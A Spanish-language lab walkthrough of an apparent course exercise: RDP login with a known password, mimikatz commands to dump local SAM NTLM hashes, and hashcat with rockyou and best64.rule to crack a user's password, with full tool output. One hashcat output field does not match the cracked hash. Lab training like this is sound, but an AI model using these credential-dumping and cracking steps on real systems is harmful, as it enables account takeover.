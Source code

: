 # Walk: Password Attacks - Cracking NTLM - VM #1

## Fecha: 24/02/2025
## Host: Windows
## IP: 192.168.155.227
## Objetivo
Access VM #2 via RDP as user _nadine_ with the password retrieved in the exercise of the section labeled "Password Manager" and leverage the methods from this section to extract Steve's NTLM hash. Use **best64.rule** for the cracking process and enter the plain text password as answer to this exercise.
## Herramientas
1.  xfreerdp
2.  hashcat
3.  mimikatz
## Procedimiento y comandos
#### Paso 1: Obtenemos el hash ntml de steve
1. Accedemos como _nadine_ para obtener el hash ntml de _steve_
`xfreerdp /v:192.168.155.227 /u:nadine /p:123abc +clipboard /cert:ignore /drive:/tmp`
2. Ejecutamos _**mimikatz**_ para obtener el hash de _steve_
> `cd C:\tools`
> `PS C:\tools> .\mimikatz.exe`
```
mimikatz #  privilege::debug
Privilege '20' OK
mimikatz #  token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
656 {0;000003e7} 1 D 34811 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Primary
-> Impersonated !
* Process Token : {0;000413a0} 1 F 6146616 MARKETINGWK01\offsec S-1-5-21-4264639230-2296035194-3358247000-1001 (14g,24p) Primary
* Thread Token : {0;000003e7} 1 D 6217216 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Impersonation (Delegation)
mimikatz #  lsadump::sam
```
3. Obtenemos el hash elevando nuestros privilegios a **System**
	
	-   `privilege::debug` habilitamos _**SeDebugPrivilege**_ para poder ejecutar el resto de los comandos.
	-   `token::elevate` eleva nuestros privilegios a _system_ para poder obtener el hash.
	-   `lsadump::sam` extrae las passwords de SAM.

```
mimikatz #  privilege::debug
Privilege '20' OK
mimikatz #  token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
656 {0;000003e7} 1 D 34811 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Primary
-> Impersonated !
* Process Token : {0;000413a0} 1 F 6146616 MARKETINGWK01\offsec S-1-5-21-4264639230-2296035194-3358247000-1001 (14g,24p) Primary
* Thread Token : {0;000003e7} 1 D 6217216 NT AUTHORITY\SYSTEM S-1-5-18 (04g,21p) Impersonation (Delegation)
mimikatz #  lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
RID : 000003e9 (1001)
User : offsec
Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
RID : 000003ea (1002)
User : steve
Hash NTLM: 2835573fb334e3696ef62a00e5cf7571
...
```
#### Paso 2: Crackeamos el hash
-   Una vez obtenido el hash _**2835573fb334e3696ef62a00e5cf7571**_ procedemos a crackearlo en kali.

1.  Guardamos el hash: `echo "2835573fb334e3696ef62a00e5cf7571" > steve.hash`
2.  Averiguamos el modo: `hashcat -h | grep "ntlm"`

```
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM                                                       | Operating System

```

3.  Ejecutamos **hashcat** para crackear el hash: `hashcat -m 1000 steve.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 1104517645

2835573fb334e3696ef62a00e5cf7571:francesca77                   
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
Time.Started.....: Mon Feb 24 13:22:39 2025, (1 sec)
Time.Estimated...: Mon Feb 24 13:22:40 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3814.9 kH/s (6.06ms) @ Accel:128 Loops:77 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 78848/1104517645 (0.01%)
Rejected.........: 0/78848 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> bnybny
Hardware.Mon.#1..: Temp: 61c Util: 14%

```
>Nuestro flag es  _**francesca77**_

